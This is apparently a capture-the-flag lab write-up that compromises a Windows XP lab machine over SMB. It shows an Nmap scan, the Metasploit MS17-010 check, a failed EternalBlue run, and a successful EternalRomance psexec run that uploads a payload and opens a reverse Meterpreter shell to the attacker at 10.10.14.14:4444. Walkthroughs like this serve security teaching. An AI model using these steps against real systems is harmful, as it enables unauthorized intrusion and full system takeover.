

# Information Gathering

## Nmap
Running an Nmap scan.

```console
root@kali:~# nmap 10.10.10.4
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-17 03:18 EDT
Nmap scan report for 10.10.10.4
Host is up (0.21s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE
139/tcp  open   netbios-ssn
445/tcp  open   microsoft-ds
3389/tcp closed ms-wbt-server

```
From the above output we can see that ports, **139** and **445** are open.

Since 445 is open let's try to check if it's vulnerable to Eternalblue.

```console
msf5 > search eternalblue

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```
Let's go ahead and check if the box is vulnerable to Eternal Blue, we use `auxiliary/scanner/smb/smb_ms17_010`.

Set value of RHOSTS to 10.10.10.4 and run the module

```console
msf5 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 10.10.10.4:445        - Host is likely VULNERABLE to MS17-010! - Windows 5.1
[*] 10.10.10.4:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Here we see it is likely vulnerable to eternal blue. This module exploits the vulnerability found in Server Message Block V1 running on port 445. SMB mishandles the crafted packets sent by the attacker, thus allowing Remote Code Execution, let's try exploiting it.

[//]:
[//]:# ( **Figure 1:** FTP Anonymous Login Possible)

# Exploitation  

[//]:# (Google reveals that there's a metasploit module for the vulnerability. Going ahead and starting msfconsole and searching for samba.)

Using exploit `windows/smb/ms17_010_eternalblue` and setting RHOSTS 10.10.10.4

```console
msf5 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.10.4       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```

Let's run the module now.

```console
[*] Started reverse TCP handler on 10.10.14.14:4444 
[*] 10.10.10.4:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.4:445        - Host is likely VULNERABLE to MS17-010! - Windows 5.1
[*] 10.10.10.4:445        - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.4:445 - Connecting to target for exploitation.
[+] 10.10.10.4:445 - Connection established for exploitation.
[+] 10.10.10.4:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.4:445 - CORE raw buffer dump (11 bytes)
[*] 10.10.10.4:445 - 0x00000000  57 69 6e 64 6f 77 73 20 35 2e 31                 Windows 5.1     
[+] 10.10.10.4:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.4:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.4:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.4:445 - Starting non-paged pool grooming
[+] 10.10.10.4:445 - Sending SMBv2 buffers
[+] 10.10.10.4:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.4:445 - Sending final SMBv2 buffers.
[*] 10.10.10.4:445 - Sending last fragment of exploit packet!
[*] 10.10.10.4:445 - Receiving response from exploit packet
[+] 10.10.10.4:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.4:445 - Sending egg to corrupted connection.
[*] 10.10.10.4:445 - Triggering free of corrupted buffer.
[-] 10.10.10.4:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.10.4:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.10.4:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```
Exploit failed.

We try `exploit/windows/smb/ms17_010_psexec` EternalRomance SMB Vuln. This vulnerability is more reliable than the Eternalblue(EternalBlue in 90% cases causes BSOD), this vulnerability exploits a bug in 'named pipes'.
Use the module, set rhosts to the IP of the box and run.

```console
msf5 exploit(windows/smb/ms17_010_psexec) > run

[*] Started reverse TCP handler on 10.10.14.14:4444 
[*] 10.10.10.4:445 - Target OS: Windows 5.1
[*] 10.10.10.4:445 - Filling barrel with fish... done
[*] 10.10.10.4:445 - <---------------- | Entering Danger Zone | ---------------->
[*] 10.10.10.4:445 -    [*] Preparing dynamite...
[*] 10.10.10.4:445 -            [*] Trying stick 1 (x86)...Boom!
[*] 10.10.10.4:445 -    [+] Successfully Leaked Transaction!
[*] 10.10.10.4:445 -    [+] Successfully caught Fish-in-a-barrel
[*] 10.10.10.4:445 - <---------------- | Leaving Danger Zone | ---------------->
[*] 10.10.10.4:445 - Reading from CONNECTION struct at: 0x8230a598
[*] 10.10.10.4:445 - Built a write-what-where primitive...
[+] 10.10.10.4:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.4:445 - Selecting native target
[*] 10.10.10.4:445 - Uploading payload... jjcqgneP.exe
[*] 10.10.10.4:445 - Created \jjcqgneP.exe...
[+] 10.10.10.4:445 - Service started successfully...
[*] Sending stage (180291 bytes) to 10.10.10.4
[*] 10.10.10.4:445 - Deleting \jjcqgneP.exe...
[*] Meterpreter session 1 opened (10.10.14.14:4444 -> 10.10.10.4:1036) at 2020-03-17 03:48:58 -0400

meterpreter > 
```

Got a session!

## User Flag

In order to get the user flag, we change the directory to the user Desktop 'john' and we simply need to use `cat` to read the contents of user.txt
```
root@kali:~$ cat user.txt

```

## Root Flag

There's no need to privesc this box as we could easily change directory to the Administrator Desktop folder and `cat` the root.txt
```
root@kali:~$ cat root.txt

```

# Conclusion
Overall the box was pretty easy as the exploits were straight forward and there was no need for a privesc. Both root and user could be owned in a single exploit.

